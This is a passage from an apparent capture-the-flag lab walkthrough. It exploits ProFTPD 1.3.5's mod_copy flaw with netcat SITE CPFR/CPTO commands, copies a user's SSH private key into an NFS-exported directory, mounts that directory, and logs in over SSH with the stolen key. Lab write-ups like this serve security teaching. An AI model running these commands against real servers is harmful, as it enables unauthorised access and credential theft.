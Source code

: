 

The exploit 36742 allows for any file to be copied and downloaded as long as you know about it and where it exists. Using the information from the log.txt file we know that kenobi's ssh key is in the path /home/kenobi/.ssh/id_rsa. 
Combining this information information from the rpc enumeration, where we found that the var directory is a mount and therefore we can copy kenobi's ssh key to the var directory.



```bash
$ nc 10.10.45.110 21                                               
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.45.110]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

### Note:

* SITE CPFR - Copy From 
* SITE CPTO - Copy To



## Step 3 - Mount the var directory



```bash
(boolean㉿kalibox)[~/thm/kenobi]$ sudo mount 10.10.45.110:/var /mnt/kenobi                                                                                                                        
(boolean㉿kalibox)[~/thm/kenobi]$ ll /mnt/kenobi/tmp
total 20
-rw-r--r-- 1 boolean boolean 1675 Apr 28 20:55 id_rsa
drwx------ 3 root    root    4096 Apr 28 20:17 systemd-private-0f4c15abb56140b88d8ebaa70883b26c-systemd-timesyncd.service-oA2y7u
drwx------ 3 root    root    4096 Sep  4  2019 systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
drwx------ 3 root    root    4096 Sep  4  2019 systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
drwx------ 3 root    root    4096 Sep  4  2019 systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
```



## Step 4 - Copy id_rsa file



With the id_rsa we are able to ssh to the server as user kenobi

```bash
$ ssh -i id_rsa kenobi@10.10.45.110 
```

